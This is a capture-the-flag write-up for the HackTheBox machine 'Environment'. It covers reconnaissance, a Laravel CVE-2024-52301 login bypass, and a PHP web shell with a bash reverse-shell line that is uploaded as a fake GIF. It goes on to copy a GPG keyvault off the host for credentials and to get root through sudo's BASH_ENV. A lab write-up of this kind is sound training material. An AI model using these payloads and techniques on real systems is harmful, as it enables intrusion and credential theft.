





**Environment** is a medium-rated Linux machine on **HackTheBox** . First you exploit a vulnerable file upload, then use the Laravel debug interface to leak secrets that help you get a foothold. Finally, you escalate to root by taking advantage of how sudo handles environment variables.

# 1. Initial Reconnaissance and Scanning:
### Nmap Scan:
To quickly determine which ports are open, we start with a simple
```bash
nmap 10.10.11.67
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Using Nmap to identify the running services and their versions.

- -sV to enumerate the service and version behind each port
- -sC to run Nmap scripts for those services and
- -p to specify the ports we already discovered to scan

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Save the Environment | environment.htb
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Understanding the Results:
We found :

●**Port 22** (SSH): Useful later for remote access.  
●**Port 80** (HTTP): Likely indicates a website is running.

Put the target IP and environment.htb into your /etc/hosts file. That makes your computer treat environment.htb like a real domain, so visiting http://environment.htb in your browser will open the target site.

```bash
echo "10.10.11.67 environment.htb" | sudo tee -a /etc/hosts
```
# 2.Enumeration :
### Looking for looking hidden diractory:
Using ffuf to search for subdirectories, we uncover some additional directories.
```bash
ffuf -u http://environment.htb/FUZZ -w /usr/share/wordlists/DirBuster/medium-words.txt -t 30 -fs 0
```
logout | login | upload | mailing | up

we visit http://environment.htb/mailing


We used Burp Suite to capture the subscription request and changed its method. This let us see how the backend responded and gather useful information.



The site still had Laravel’s debug interface turned on. That revealed it’s running Laravel 11.30.0, which is vulnerable to CVE-2024-52301.



We changed the “remember me” setting on the login page and discovered that the site’s environment is labeled preprod.


Combining the CVE with the environment name allows us to bypass the login function.
```bash
POST /login?--env=preprod HTTP/1.1
Host: environment.htb
...
_token=<csrf_token>&email=admin%40environment.htb&password=admin&remember=True
```

This parameter appears to leak the application’s internal environment configuration (preprod), suggesting that the backend still processes environment-specific parameters in production. This misc

==Which redirects us to /management/dashboard.==



To exploit the upload function, we first create a shell.php file.

```copy
cat shell.php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'"); ?>
```
We told the server the upload was a GIF (Content-Type: image/gif) and added the GIF header GIF89a so the file looked like an image. Naming it shell.php. bypassed the filters — the server treated it as shell.php, ran it, and our reverse shell connected back on port 4444.


# 3.Getting access to ssh
```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [■■■■■■■■■■■■] from (UNKNOWN) [10.10.11.67] 36114
www-data@environment:~/app/storage/app/public/files$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
After connecting, we went into the hish user’s home folder and downloaded the keyvault.gpg file found in the Backup directory to our computer.

```bash
www-data@environment:/home/hish/backup$ cat keyvault.gpg | base64 -w0
h■■■■■■■■■■■■■■■■8/TA■■+I■■■■■■■■■■■■■■■■■/n■■■■■■■■■■■■■■■■■/W■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■g==
```
In your machine

```bash
echo "h■■■■■■■■■■■■■■■■8/TA■■+I■■■■■■■■■■■■■■■■■/n■■■■■■■■■■■■■■■■■/W■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■g==| base64 -d > keyvault.gpg

```

Now we can decrypt the keyvault.gpg file using gpg.
```bash
gpg --homedir . --list-keys
gpg --homedir . --list-secret-keys
gpg --homedir . --export-secret-keys --armor > privatekey.asc
gpg --import privatekey.asc
gpg --decrypt keyvault.gpg
```


Using the passwords we found, we logged in over SSH as the hish account.

```bash
hish@environment:~$ id
uid=1000(hish) gid=1000(hish) groups=1000(hish),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)
```
# 4. Privilege Escalation
Running `sudo -l` :
```bash
hish@environment:~$ sudo -l
[sudo] password for hish: 
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```
**Bingo** ==env_keep+="ENV BASH_ENV"==

This **environment** **variable** can be changed so it runs a custom script before the shell opens. Using that misconfiguration, we can escalate privileges in the following way

```bash

hish@environment:/tmp$ cat root.sh
#!/bin/bash
/bin/bash

hish@environment:/tmp$ sudo BASH_ENV=/tmp/root.sh /usr/bin/systeminfo
```
The script ran as the root user, giving us a root shell. We then accessed and collected all the flags.

```
root@environment:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

## Conclusion

Environment is a medium-rated Linux box that demonstrates a classic chain of misconfigurations leading to full compromise. By combining an insecure file upload with an exposed Laravel debug interface (which disclosed versioning and a known CVE), we were able to bypass authentication and upload a web shell. That initial foothold as www-data allowed us to discover and exfiltrate sensitive artifacts (the keyvault.gpg), recover credentials, and authenticate as the hish user. Finally, a sudo configuration that preserved the BASH_ENV environment variable enabled execution of a custom script as root, yielding a full root shell and complete control of the host.